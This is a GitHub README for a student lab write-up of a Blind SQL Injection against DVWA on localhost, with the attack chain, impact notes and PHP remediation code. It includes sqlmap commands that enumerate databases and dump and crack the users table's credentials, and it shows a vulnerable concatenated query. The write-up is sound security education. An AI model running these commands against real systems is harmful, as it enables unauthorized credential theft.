



# 🔐 DVWA — Blind SQL Injection Assessment


-green?style=flat-square)


> ⚠️ **Disclaimer:** All activity documented in this repository was performed exclusively within a controlled academic lab environment using DVWA (Damn Vulnerable Web Application) — a deliberately vulnerable application designed for security training. No real-world systems were targeted. This repository exists solely for educational and portfolio purposes.

---

## Overview

This repository documents a Blind SQL Injection vulnerability identified and exploited during a web application security lab exercise. The target was the DVWA Blind SQLi module running locally via XAMPP.

An initial attempt at classic SQL injection (authentication bypass) was unsuccessful. Pivoting to the Blind SQLi module, boolean-based injection was confirmed manually, then fully automated using SQLMap — resulting in complete database enumeration and plaintext credential recovery for all five user accounts.

---

## Finding Summary

| Field | Detail |
|---|---|
| **Title** | Blind SQL Injection with Full Database Enumeration |
| **Severity** | HIGH |
| **CVSS Score** | 8.8 (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H) |
| **Type** | CWE-89 — SQL Injection (Blind, Boolean-Based) |
| **Endpoint** | `/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit` |
| **Tools Used** | Firefox, Burp Suite Community, SQLMap |
| **Outcome** | Full credential dump — all 5 accounts, hashes cracked to plaintext |

---

## Attack Chain

```
Classic SQLi attempted on login form
        │
        ▼
  ❌ Unsuccessful — pivoted approach
        │
        ▼
Blind SQLi module — submitted ID=1
        │
        ▼
  ✅ Boolean response confirmed injectable parameter
        │
        ▼
SQLMap launched with session cookie (--dbs)
        │
        ▼
  ✅ Two databases enumerated: dvwa, information_schema
        │
        ▼
Table & column dump: users table → user_id, password
        │
        ▼
  ✅ All 5 MD5 hashes cracked → plaintext credentials recovered
```

---

## Evidence

### Fig 1 — Boolean Response Confirming Blind SQLi

> `ID=1` returns a positive user-exists response. An invalid ID returns nothing.
> This true/false behavior confirms the parameter is injectable.



---

### Fig 2 — SQLMap Database Enumeration (`--dbs`)

> SQLMap discovers two databases. `dvwa` is identified as the target.



---

### Fig 3 — Credential Dump with Cracked Hashes

> All 5 user accounts extracted. SQLMap automatically cracks the MD5 hashes,
> returning plaintext passwords for every account.



---

## Key SQLMap Commands Used

```bash
# Step 1 — Enumerate all databases
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=<session_id>; security=low" \
       --dbs

# Step 2 — Enumerate tables in dvwa
sqlmap -u "..." --cookie="..." -D dvwa --tables

# Step 3 — Dump columns from users table
sqlmap -u "..." --cookie="..." -D dvwa -T users --columns

# Step 4 — Dump all data and crack hashes
sqlmap -u "..." --cookie="..." -D dvwa -T users --dump
```

See [`payloads/sqli_blind_notes.md`](payloads/sqli_blind_notes.md) for full manual testing notes and payload observations.

---

## Impact

- **Complete credential exposure** — all 5 user accounts with plaintext passwords recovered
- **Authentication bypass** — recovered credentials allow login as any user including admin
- **Credential stuffing risk** — users reusing passwords on other platforms are at further risk
- **Data integrity** — the same vector permits `INSERT`, `UPDATE`, and `DELETE` against the database
- **Weak hashing amplified damage** — unsalted MD5 allowed instant cracking, compounding the breach

---

## Remediation

Two separate vulnerabilities required independent fixes.

### 1. Parameterized Queries (Primary Fix)

```php
// ❌ VULNERABLE — user input directly concatenated
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

// ✅ SECURE — PDO Prepared Statement
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->execute([$id]);
$result = $stmt->fetchAll();
```

### 2. Replace MD5 with bcrypt (Secondary Fix)

```php
// ❌ INSECURE — MD5 is not a password hashing function
$hash = md5($password);

// ✅ SECURE — bcrypt via PHP password_hash()
$hash = password_hash($password, PASSWORD_BCRYPT);
if (password_verify($inputPassword, $storedHash)) {
    // login success
}
```

See [`remediation/secure_code_examples.md`](remediation/secure_code_examples.md) for the full breakdown including additional controls.

---

## Formal Report

The complete formatted vulnerability report (including CVSS breakdown, full exploitation narrative, and remediation guidance) is available here:

📄 [`report/vulnerability_report.docx`](report/vulnerability_report.docx)

---

## Repository Structure

```
dvwa-sqli-assessment/
├── README.md                        ← this file
├── report/
│   └── vulnerability_report.docx   ← formal submission document
├── evidence/
│   ├── 01_boolean_response.png      ← Fig 1: boolean SQLi confirmation
│   ├── 02_sqlmap_dbs.png            ← Fig 2: database enumeration output
│   └── 03_credential_dump.png      ← Fig 3: credential dump + cracked hashes
├── payloads/
│   └── sqli_blind_notes.md         ← manual test inputs and observations
└── remediation/
    └── secure_code_examples.md     ← full secure code walkthrough
```

---

## Tools & Environment

| Tool | Purpose |
|---|---|
| DVWA | Target application (deliberately vulnerable) |
| XAMPP | Local server stack hosting DVWA |
| Firefox + Dev Tools | Manual testing and request inspection |
| Burp Suite Community | HTTP interception and request capture |
| SQLMap | Automated blind SQLi enumeration and exploitation |

---

## References

- [OWASP A03:2021 — Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PortSwigger — Blind SQL Injection](https://portswigger.net/web-security/sql-injection/blind)
- [SQLMap Official Documentation](https://sqlmap.org/)
- [PHP Manual — password_hash()](https://www.php.net/manual/en/function.password-hash.php)
- [CVSS v3.1 Specification — FIRST](https://www.first.org/cvss/specification-document)
